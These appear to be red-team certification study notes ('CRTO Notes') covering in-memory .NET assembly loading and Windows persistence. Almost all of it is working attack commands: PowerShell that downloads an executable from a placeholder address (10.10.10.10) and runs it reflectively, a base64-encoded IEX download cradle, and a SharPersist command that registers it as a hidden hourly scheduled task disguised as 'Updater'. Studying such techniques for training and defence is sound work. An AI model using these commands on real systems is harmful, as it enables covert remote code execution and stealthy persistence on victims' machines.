 ```yaml
---
title: CRTO Notes
date: 2021-08-04 21:00:00 0000
categories: [RED_TEAM, CRTO]
tags: [C# CRTO REDTEAMING]
---
```


```csharp
[system.reflection.assembly]::LoadFile("file")
 [namespace.class]::Main()
```

Binary reflective loading

```csharp
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/binary.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[binary.Program]::Main("".Split())
```



##Presistance 

###Task Scheduler

Using SharpPresist

```powershell
$str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.10.10/payload.ps1"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```
The above snippet will produce a Base64 string which will be supplied in the snippet below:
```powershell
.\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc BASE64 ENCODED STRING HERE" -n "Updater" -m add -o hourly
```

